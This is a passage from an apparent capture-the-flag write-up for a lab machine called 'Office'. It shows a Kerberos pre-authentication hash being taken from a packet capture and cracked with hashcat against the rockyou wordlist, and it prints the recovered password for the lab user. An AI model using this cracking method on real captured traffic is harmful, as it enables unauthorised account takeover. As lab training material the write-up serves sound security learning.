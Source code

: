 ![PCAP Kerberos As-Req](../assets/images/writeups/office/pcap-kerberos-req.png)

We can create a `Kerberos Pre-Auth` hash for the user `tstark`. To do this we first have to check the format that is expected by [Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes).

![Hashcat kerberos example](../assets/images/writeups/office/kerberos-preauth-format.png)

We can now construct our hash and crack it.

```console
$ hashcat -m 19900 tstark.hash $ROCKYOU

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5pa$18$tstark$office.htb$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69

<SNIP>
```
